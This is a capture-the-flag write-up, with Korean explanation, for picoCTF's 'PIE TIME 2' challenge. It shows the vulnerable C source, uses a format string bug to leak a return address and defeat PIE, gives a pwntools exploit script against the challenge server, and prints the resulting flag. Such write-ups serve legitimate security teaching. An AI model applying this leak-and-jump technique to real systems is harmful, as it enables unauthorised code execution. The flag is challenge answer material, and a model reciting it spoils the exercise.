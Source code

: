 # [PIE TIME 2](https://play.picoctf.org/practice/challenge/491?category=6&originalEvent=74&page=1)
<br />

**Description:**
> Can you try to get the flag? I'm not revealing anything anymore!!
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=89c0ed5ed3766d1b85809c2bef48b6f5f0ef9364, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```
<br />
<br />

바이너리를 실행하면 입력을 받고, 이를 출력합니다. 이후 점프할 주소를 입력받고, 호출합니다. 소스코드를 보면 `printf(buffer)`를 사용하고 있는데, 이는 내부 주소 유출 및 특정 주소 조작 등을 할 수 있는 FSB 취약점이 발생합니다. 바이너리에는 PIE가 적용되어 있지만, 해당 취약점을 통해 `win`의 주소를 구할 수 있습니다.

우선 아래 과정을 통해 `RET`의 주소를 알아냅니다.

```asm
pwndbg> b *call_functions+121
Breakpoint 1 at 0x555555555340
pwndbg> r
...
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0   0x5555555552c7 call_functions
   1   0x555555555441 main+65
   2   0x7ffff7dedca8 __libc_start_call_main+120
   3   0x7ffff7dedd65 __libc_start_main+133
   4   0x5555555551ee _start+46
...
pwndbg> x/2gx $rbp
0x7fffffffe070: 0x00007fffffffe080      0x0000555555555441
pwndbg> x/a 0x0000555555555441
0x555555555441 <main+65>:       0xfc35d00000000b8
```
디버깅으로 `call_functions` 의 `RET` 주소는 `0x555555555441`인 것을 알 수 있고, 주소의 마지막 3자리는 `441`입니다. 이제 `RET`의 주소를 알았으니, 오프셋을 특정할 수 있습니다.

```bash
./vuln
Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
0x561cc567f2a1.0xfbad2288.0x3a980d5f.0x561cc567f2df.(nil).0x7f523844ffd0.(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa70252e70252e.0x7ffd7882d340.0x1af3520c4ae5ad00.0x7ffd7882d340.0x561ca9576441.0x1.0x7f5238293ca8
 enter the address to jump to, ex => 0x12345:
```
```bash
$ ./vuln
Enter your name:%19$p
0x557dc4a2e441
 enter the address to jump to, ex => 0x12345:
```
`RET`의 오프셋은 `19` 입니다. 이제 `win`의 주소를 구할 수 있습니다.
```yaml
pwndbg> p win
$1 = {<text variable, no debug info>} 0x55555555536a <win>
pwndbg> p/x 0x555555555441 - 0x55555555536a
$2 = 0xd7
```
`RET`과 `win` 사이의 오프셋은 `0xd7` 입니다. 위 과정을 종합하여 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"

# p = process("./vuln")
p = remote("rescued-float.picoctf.net", 64714)

p.sendlineafter(b"Enter your name:", b"%19$p")
leak = int(p.recvline()[:-1],16)
win = leak - 0xd7

p.sendlineafter(b"0x12345:", hex(win).encode())
p.interactive()
```
```bash
$ python3 test.py
You won!
picoCTF{p13_5h0u1dn'7_134k_9d4030a3}

$
```
